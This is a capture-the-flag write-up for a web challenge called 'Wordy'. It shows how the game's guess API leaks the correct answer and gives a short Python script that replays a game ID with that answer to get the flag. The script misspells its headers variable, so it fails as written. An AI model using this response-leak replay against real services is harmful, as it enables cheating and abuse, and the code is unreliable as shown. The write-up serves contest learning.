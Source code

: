 # Wordy

Author: Tsuto

## Description

A word guessing game that we are all familiar with in 2022. However, this one is stuck in hard mode and only allows you to make one guess. If you can correctly guess the word then you get a prize!

## Solution

This challenge is based off of wordle. The problem with wordle is that there is an easy way to get the question right every time. In the game's JS there is an array of words that are used in sequential order so that if the previous day's word is known then the current word is also known. This method however, does not apply to this challenge

Analysising the JS source in the page shows that there are 2 requests made for each guess.

1. A request to `/api/game` to generate the game id
2. A request to `/api/guess` to check if the word is correct

```js
const getGame = async() => {
    // Cut above

    await fetch(`/api/game`, {
        method: 'GET',
    })

    // Cut below
}

const checkGuess = async() => {
    // Cut above
    
    await fetch(`/api/guess`, {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json',
        },
        body: JSON.stringify({guess: guessString, game_id: gameId}),
        credentials: 'same-origin',
    })

    // Cut below
}
```

The response to each guess will include the correct answer if the guess is incorrect. 

![](img/guess_req.png)

This means that we could resend the same game code with the correct answer and potentially get it right. However, when this is done, the server reply states that all game codes are removed after a set amount of time.

![](img/guess_retry.png)

To work around this timer a script can be written to speed up the process of resending the request. In total the script must do 3 things:

1. Get a new game code by making a `GET` request to `/api/game`
2. Send an inccorect guess with the new game code to `/api/guess`
3. retrieve the correct word and resend the request to get the flag.

```python
import requests

url = "https://uscg-web-wordy-w7vmh474ha-uc.a.run.app:443"
game = "/api/game"
guess = "/api/guess"

haeders = {"Content-Type": "application/json"}

# Get game ID
r = requests.get(url + game)
game_id = r.text[12:-3]

data = {"game_id": game_id, "guess": "lmaoo"} # Random incorrect guess

# Send incorrect guess and retrieve correct word
r = requests.post(url + guess, headers=headers, json=data)
word = r.text[-10:-5]

data = {"game_id": game_id, "guess": word} # Correct guess for ID

# Send data and print out flag
r = requests.post(url + guess, headers=headers, json=data)
print(r.text)
```

Flag: `USCG{1ucky_gu355_l0l}`
